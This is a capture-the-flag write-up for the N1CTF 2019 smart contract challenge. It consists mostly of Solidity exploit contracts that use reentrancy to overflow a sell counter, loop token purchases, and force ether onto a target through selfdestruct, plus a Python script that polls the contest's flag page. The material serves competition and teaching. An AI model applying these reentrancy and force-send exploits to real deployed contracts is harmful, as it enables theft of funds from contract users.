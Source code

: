 ## challenges
[https://github.com/beafb1b1/challenges/tree/master/n1ctf/2019_h4ck_Smart_Contract](https://github.com/beafb1b1/challenges/tree/master/n1ctf/2019_h4ck_Smart_Contract)

- collectmoney: collect tokens and transfer to contract reentrancy 100 times
- reentrancy: buy and reentracy to int overflow the sellTimes

## exploit
```solidity
contract collectmoney{
    address addr=0xE2d6d8808087D2e30EAdF0ACb67708148dbee0C0;
    address public reentry;
    
    function () payable {
    }
    
    function set_reentry(address target)
    {
        reentry=target;
    }
    
    function exploit(uint times)
    {
        for (uint i=0;i<times;i++)
        {
            challenge(addr).buy.value(1)();
            challenge(addr).transfer(reentry,1);
        }
    }
    
}

contract reentrancy{
    address addr=0xE2d6d8808087D2e30EAdF0ACb67708148dbee0C0;
    uint have_withdraw;
    
    function attack_buy(){
        challenge(addr).buy.value(1)();
    }
    
    function attack(){
        challenge(addr).sell(100);
    }
    
    function () payable {
        if (have_withdraw==0 && msg.sender==addr){
            have_withdraw=1;
            challenge(addr).sell(100);
        }
    }
    
    function getflag() public{
        challenge(addr).winnerSubmit();
    }
}

contract transfer_force{
    
    address owner;
    
    function () payable {
    }
    
    constructor()public{
        owner = msg.sender;
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
    
    function kill(address to) public onlyOwner {
        selfdestruct(to);
    }
}
```

## sth to say

This challenge is not use the email solution to send the flag. Instead of that, it use a web interface which have a lot of problems. At the beginning of the game, flag can be obtained by getting someone else's winner's address and submitting it. Later, the organizers limited each winner address to only get flag once. But somebody made trouble by submitting other winner addresss indefinitely. So I had to use the following script to get the final flag.
```python
import requests

url="http://47.244.41.61/challenge?address=0xfe03e84d6069fd0ca2679638eb80c4483885efd8"

while True:
    print requests.get(url).content.split("alert")[1].split("script")[0]
```
Maybe an email **BOT** is a better choice.
